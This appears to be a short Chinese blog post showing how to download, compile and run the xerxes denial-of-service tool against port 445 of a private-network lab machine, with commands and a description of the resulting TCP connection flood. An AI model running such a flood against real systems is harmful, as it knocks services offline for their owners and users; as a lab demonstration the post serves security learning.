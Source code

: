```yaml
---
layout:     post
title:      用xerxes发起dos攻击
author:     wooy0ung
tags: 		dos
category:  	exploit
password:	yes
---
```



### 0x00 xerxes

下载xerxes

```
$ sudo svn checkout https://github.com/wooy0ung/pentest/trunk/xerxes
```

编译

```
$ cd xerxes
$ gcc xerxes.c -o xerxes
```
<!-- more -->

扫描目标端口

![](/assets/img/exploit/2017-06-22-xerxes/0x00.png)

攻击445端口

```
./xerxes 10.211.55.5 445
```

![](/assets/img/exploit/2017-06-22-xerxes/0x01.png)

目标机器建立了大量tcp连接，消耗资源

![](/assets/img/exploit/2017-06-22-xerxes/0x02.png)